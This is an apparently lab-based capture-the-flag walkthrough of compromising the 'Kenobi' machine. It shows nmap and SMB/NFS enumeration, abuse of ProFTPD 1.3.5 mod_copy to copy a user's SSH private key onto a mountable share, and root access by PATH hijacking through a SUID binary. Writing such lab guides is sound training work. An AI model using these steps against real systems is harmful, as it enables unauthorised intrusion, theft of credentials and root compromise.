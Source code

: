![](https://i.imgur.com/mmjgn6M.png)

We need to run a scan to know what is going on on our targets network
### Scan results
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.226.52 -T5   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-29 05:25 EST
Warning: 10.10.226.52 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.226.52
Host is up (0.29s latency).
Not shown: 964 closed tcp ports (conn-refused), 29 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin.html
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100005  1,2,3      34475/udp6  mountd
|   100005  1,2,3      53789/udp   mountd
|   100005  1,2,3      53833/tcp   mountd
|   100005  1,2,3      60453/tcp6  mountd
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h01m48s, deviation: 3h27m51s, median: 1m47s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-01-29T10:28:22
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2024-01-29T04:28:22-06:00
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.05 seconds
```

- From the above results we see that out target has 7 ports open
- we can get more information about our target from the open SMB port `139` and `445`
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <IP>
```
![](https://i.imgur.com/RZM1Od8.png)
- we have 3 shares available on SMB port `455`
- one of the share that stands out is the anonymous share:
```bash
\\10.10.226.52\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
```
it has a user home directory path
- we can use a tool called `smbclient` to enumerate further on that share
```bash
smbclient //<IP>/<SHARE>
```
![](https://i.imgur.com/aXX8We6.png)
- i used the get command to download a file that is available in the share to my own machine.

- reading the log file i see Information generated for Kenobi when generating an SSH key for the user
- and Information about the ProFTPD server
![](https://i.imgur.com/g57aec2.png)

>[!summary] 
our earlier nmap port scan has shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve.

- In our case, port 111 is access to a network file system. Lets use nmap to enumerate this:
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <IP>
```
![](https://i.imgur.com/WUoOYRL.png)

From the above output we can see that there is a mountable NFS share `/var`

Going back to the initial nmap scan the first open port:
```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
```
- ProFTPD version 1.3.5  is running
we can search for possible exploit on searchsploit and we have 4 possible exploits
![](https://i.imgur.com/ctbPdvF.png)
#### About the exploit
The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the file system to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

so we can use Netcat to connect to the FTP server and use the vulnerable copy module to copy the private ssh key of the user kenobi `/home/kenobi/.ssh/id_rsa` to the mountable share `/var` 
![](https://i.imgur.com/KpFvRzt.png)

Lets mount the /var/tmp directory to our machine
```bash
mkdir /mnt/kenobiNFS
mount 10.10.226.52:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
![](https://i.imgur.com/HZAkMYS.png)
then  i SSH into kenobi's account with the private key (using sudo)
![](https://i.imgur.com/0oaFTVx.png)

## Privilege Escalation with Path Variable manipulation

To search the a system for file with a SUID bit run the following: 
```bash
find / -perm -u=s -type f 2>/dev/null 
```
![](https://i.imgur.com/oIJQoyN.png)

we found some files, but the one that is odd from the results is the menu file.
- the `/usr/bin` directory is a directory that is usually in the PATH variable:
![](https://i.imgur.com/giTWmMv.png)
- this means if i just type `menu` in the CLI it should do something

![](https://i.imgur.com/6jfFj26.png)

See): ?

then i use the `strings` command to looks for human readable strings on a binary:
![](https://i.imgur.com/g5TnHHF.png)
- This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname)
- As this file runs as the root users privileges, we can manipulate our path gain a root shell.
![](https://i.imgur.com/K4es2mq.png)
We copied the /bin/sh shell, called it uname, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "uname" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

## Thanks For Reading
